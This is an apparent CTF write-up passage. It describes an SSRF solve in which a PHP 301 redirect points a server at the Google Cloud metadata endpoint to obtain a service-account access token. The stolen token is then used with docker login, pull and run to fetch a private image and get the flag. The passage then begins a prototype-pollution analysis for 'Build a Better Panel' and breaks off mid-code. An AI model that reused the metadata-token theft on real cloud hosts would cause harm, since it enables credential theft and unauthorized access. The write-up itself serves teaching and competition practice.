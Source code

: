 tbh I didn't try this solution, I have just developed a simple webapp that returns a 302 status code redirect to Google Cloud internal metadata, this is the source code:
```php
<?php
header('Location: http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token', true, 301);
exit;
?>
```

I like tasks that don't need a lot of code xD You can also simply use an url shortener like cuttly or bit.ly. We have the following result after redirecting it to ``http://metadata.google.internal/computeMetadata/v1beta1/?recursive=true```.
Notice that we are using the beta service of metadata endpoint because it doesn't require any additional headers to setup.

![TASK](https://imgur.com/jVhKZIM.png)

If you focus on the results there is a docker image in ```https://gcr.io/dicegang-waas/waas``` so let's grab the google cloud access token and try to run the docker image , we will redirect it to the following url now 

``http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token `` 

Bingo we have the access token now

![TASK](https://imgur.com/FcF5jWo.png)

I was really a little bit lazy to use an ocr tool and copy the access token from the screenshot x) All you have to do now is to run the following commands ([Ref](https://cloud.google.com/container-registry/docs/advanced-authentication?hl=fr#token)):
```sh 
docker login -u oauth2accesstoken -p "<Access-Token>" https://gcr.io/
```
Then

```sh
docker pull gcr.io/dicegang-waas/waas
```
And finally running the image will give you the flag

```sh
docker run -it gcr.io/dicegang-waas/waas
```
**Fun Fact:** We used a similar technique to break into a previous CTF infrastructure, if you are eager to know more you can read this **[tweet](https://twitter.com/FwordTeam/status/1340988591787401216)**

## Build a Better Panel ##

This task was the same as Build a Panel but the admin bot was restricted to visit only the websites matching this regex `` ^https:\/\/build-a-better-panel\.dicec\.tf\/create\?[0-9a-z\-\=]+$ `` so we can't send directly the url having the SQL injection payload, we need to find a client side bug and chain it in order to achieve our goal.
I started exploring the client side code and the following snippet seemed suspicious:
```js
const mergableTypes = ['boolean', 'string', 'number', 'bigint', 'symbol', 'undefined'];

const safeDeepMerge = (target, source) => {
    for (const key in source) {
        if(!mergableTypes.includes(typeof source[key]) && !mergableTypes.includes(typeof target[key])){
            if(key !== '__proto__'){
                safeDeepMerge(target[key], source[key]);
            }
        }else{
            target[key] = source[key];
```